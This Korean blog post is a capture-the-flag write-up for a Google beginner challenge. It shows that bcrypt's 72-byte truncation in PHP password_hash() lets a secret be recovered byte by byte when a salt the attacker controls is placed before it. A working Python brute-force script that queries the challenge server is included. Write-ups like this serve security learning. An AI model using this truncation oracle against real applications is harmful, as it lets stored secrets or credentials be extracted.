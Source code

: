 ```yaml
---
layout: post
title: "Message"
image: GR1.png
date: 2025-07-10 14:55:00 +0900
tags: [web, hacking, google]
categories: web
---
```


Google Beginner's Request

Message

***

**Google Beginner's Request - Message**

![]({{site.baseurl}}/images/GoogleRequest/salt/1.png)

`Who remembers PHP? The password_hash() function is so convenient, no one can guess my password`

password_hash()는 간편하며, 본인의 패스워드를 볼 수 없다고 호언장담중이다.


![]({{site.baseurl}}/images/GoogleRequest/salt/2.png)

코드를 확인해보자

1. GET 요청으로 salt값 없이 전달할 경우
`Salt is important for security! Please give me a salt.`

라는 문구가 뜬다.

2. GET 요청으로 salt값을 16자 미만으로 전달할 경우
`This is too little salt! For tasty hashes we need more.`

라는 문구가 뜬다.

3. GET 요청으로 16자 이상의 Salt값을 전달할 경우

`Here you are! A tasty hash for you 😋 The flag is secure because hashes are irreversible. Even more so if they are salty!`

라는 문구와 함께 password와 Salt값을 섞은 값을 전달한다.

따라서 16자 이상의 Salt값을 전달하여 Password값을 얻어내면 된다.

하지만, password_hash는 함수가 실행될 때 마다 각기 다른 값을 뽑아낸다.

여기서 개념을 짚고 넘어가야 한다.

![]({{site.baseurl}}/images/GoogleRequest/salt/password_hash.png)

`Using the PASSWORD_BCRYPT as the algorithm,`
`will result in the password parameter being truncated to a maximum length of 72 bytes.'`

72바이트 이후에는 hash값이 잘린다는 내용
-> 그렇다면 Salt값을 71바이트로 넣고 나머지 하나를 무작위 대입한 뒤 대조해보면 되지 않을까?

![]({{site.baseurl}}/images/GoogleRequest/salt/php.png)

예상대로 72자가 넘어가게되면 뒤의 password값이 잘리게 되며,
Salt+FLAG값을 넣고 있으므로 FLAG값을 하나 얻을 때 마다
Salt값을 71에서 하나 씩 감소시키면된다.

**사용한 코드**
{% highlight python %}
import bcrypt
import requests
import warnings
from bs4 import BeautifulSoup as bs
import time
warnings.filterwarnings('ignore')

headers = {
    'Host': 'msg-web.2024-bq.ctfcompetition.com',
    'Sec-Ch-Ua': '"Not)A;Brand";v="8", "Chromium";v="138", "Google Chrome";v="138"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'none',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7',
    'Priority': 'u=0, i',
}

params = {
    'salt': 'A'*72,
}

a = b"0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
flag = ""
for i in range(1,41):
    params = {
    'salt': 'A'*(72-i),
    }
    response = requests.get('https://msg-web.2024-bq.ctfcompetition.com/', params=params, headers=headers, verify=False)
    html = response.text
    soup = bs(html, "html.parser")
    pre_tag = soup.find("pre")
    hashed = pre_tag.text.strip().encode()
    for j in a:
        password = b"A" * (72-i) + flag.encode() + bytes([j])  # i는 정수니까 bytes로 변환
        if bcrypt.checkpw(password, hashed):
            flag = flag + chr(j)
            print(f"Match! now flag is : {flag}")
            time.sleep(1)
            break
    

{% endhighlight %}


![]({{site.baseurl}}/images/GoogleRequest/salt/last.png)

FLAG 획득 완료

**시행착오**

1. PHP 내에 있는 기능을 python으로 옮겨오기가 힘들었다.
참고한 사이트

bcrypt : [bcrypt]

password-hash : [password-hash]

[bcrypt]: https://pkg.go.dev/golang.org/x/crypto/bcrypt
[password-hash]: https://www.php.net/password-hash